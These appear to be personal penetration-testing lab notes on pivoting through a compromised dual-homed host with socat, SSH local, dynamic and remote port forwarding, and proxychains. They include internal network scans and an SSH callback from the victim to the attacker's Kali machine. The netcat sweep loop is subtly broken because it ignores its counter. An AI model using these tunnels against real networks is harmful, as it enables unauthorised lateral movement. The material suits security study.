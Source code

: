 ### Summary All Commands
```bash
# simple port forward
socat -ddd TCP-LISTEN:$OPEN_NEW_PORT,fork TCP:$INTERNAL_IP:$INTERNAL_IP_PORT
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432

# SSH local port forward
ssh -N -L 0.0.0.0:4455:$MOST_INTERNAL_IP:$MOST_INTERNAL_PORT $middle_user@$middle_system
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215 # -N is to not open a shell instead just start a process

# SSH dynamic - proxychains
ssh -N -D 0.0.0.0:$OPEN_NEW_PORT $username@$MIDDLE_IP
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215

# SSH remote port forward
ssh -N -R 127.0.0.1:5555:10.4.50.215:5432 hutgrabber@coffeetom -v

# SSH remote dynamic forwarding

```
# Port Forwarding & SSH Tunneling

## 1. Simple (Basic) Port Forwarding
Components:
- There is a dual homed system in the middle of the internal and the external network.
- Compromise the dual homed system & get shell on it.
- Open a port on the dual homed system such that all traffic coming inn on that port, will be forwarded to `port 445` (in this case) of the internal machine.
- Issue commands from Kali, sending traffic to the dual homed machine on the newly opened port & it will transfer everything to `port 445` (in this case) of the internal machine.
#### Procedure:
1. Creating a forward on the Dual Homed Machine with SOCAT:
```bash
# start a socat process on the dual_homed machine
# SOCAT WORKING
# socat "LISTEN" and then "FORWARD"
# socat TCP-LISTEN:$PORT,fork -- opens a port on the DH machine.
# fork -- creates a new process.
# TCP:$INTERNAL_TARGET_TP:$PORT -- this port should already be open.
# Ports 0-1024 require privs, do not use.
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```

![[./images/Pasted image 20240111165811.png]]

2. Interacting with a port on one of the internal machines (PostgreSQL):
```bash
# now just interact with the internal IP just like normal.
psql -h $DH_IP -p $INTERNAL_PORT -U $USR
# $DH_IP -- send all traffic to the dual homed machine.
# DH Machine will forward it to the internal machine (via socat),
```

---
## 2. SSH Tunneling
### SSH Local Port Forwarding
Components:
- There is a dual homed machine, a machine in the interal network, as well as a third machine inside that network.
- In this situation there are two dual homed machines (one facing the external network, and one facing the confluence server - in this case.)
- This level of complexity is just for demonstration purposes.
- In this case you are going to SSH into `PGDATABASE01` and scan the entire network to see what else's inn there. Do this with a simple `for` loop:

```bash
for i in $(seq 1 254); do
	nc -zv -w 1 $IP_INTERNAL $PORT_INTERNAL;
done
```
- You might find something inside, and to take control of it, exit the `ssh` to `PGDATABASE01` and from the `confluence` run the ssh command that opens a new port `4455` (in this case) and then binds it to the machine in the internal network behind `PGDATABASE01` with the port that is open there. (It's `port 445` in this case.)

```bash
# on confluence01
ssh -N -L 0.0.0.0:4455:$MOST_INTERNAL_IP:$MOST_INTERNAL_PORT $middle_user@$middle_system
# the three networks in this case from left to right are
# > 192.168.50.63
# > 10.4.50.215
# > 172.16.50.217
# above command can be re-written as:
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215 # -N is to not open a shell instead just start a process
```

![[Pasted image 20240118151737.png]]

---

### SSH Dynamic Port Forwarding (Proxychains)
Components:
- Same setup as above, however, we don't always know what systems are online & what port they are listening on. (Practically speaking)
- We want to be able to scan any network through `nmap` from our Kali Machine.
- From `confluence01` we will simply open a new port (`port 9999` in this case) & bind it to `pgdatabase01`. This will send any command from our system, directly to `pgdatabase01`,meaning if we ping `hr_shares` from our Kali machine, we can do so by directly using the `hr_shares` IP address since we can think of it as running commands directly from `pgdatabase01`.
- We just need to edit the `/etc/proxychains4.conf` file in our kali and setup a `socks5 proxy`. To do this, enter the IP of `confluence01` and the port we just opened. Meaning, this line `socks5 $IP_Confluence01 $PORT`. In this case, we will add the following line - `socks5 192.168.50.63 9999`.

```bash
# open a new port on confluence and foward all packets to pgdatabase:
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215

# Running proxychains:
proxychains4 [any command]
proxychains4 smbclient -L //172.16.50.217/ -U 'username' -P='Passw0rd!' # the password takes the `=` symbol for some reason.
proxychains4 nmap -v -sT 172.16.50.217 -p 4800-4900 -T5 -Pn -n # -n to make sure no DNS errors occur.

# if running proxychains from inside the docker container:
qemu-x86_64-static /usr/bin/proxychains4 qemu-x86_64-static ./ELF_Binary_x86_Compiled
```

![[Pasted image 20240118153017.png]]

---

### SSH Remote Port Forwarding
First of all make sure that in the `/etc/ssh/sshd_config` file, you had added the line `PasswordAuthentication yes`. This will allow any machine to connect back to Kali with the user creds.
Components:
- In this case there is a firewall that only allows inbound packets on `port 8090` because of the web server running on `confluence01`. 
- So an outboud connection has to be made (bind shell of sorts) from `confluence01` to `kali` attack machine. This can be achieved by running the SSH command on `confluence01` that will open a new port on the loopback address of the `Kali` machine & bind it to an open port (`port 5432` in this case) on the internal machine.
- Then from the attak machine, the internal victim can be interacted with, by specifying the loopback address as the target IP address in all commands.

```bash
# on the confluence01 server
ssh -N -R 127.0.0.1:$OPEN_NEW_PORT:$INTERNAL_IP:$PORT $kali_user@$kali_IP -v
ssh -N -R 127.0.0.1:5555:10.4.50.215:5432 hutgrabber@coffeetom -v
```

![[Pasted image 20240118164544.png]]

---

### SSH Remote Dynamic Port Forwarding
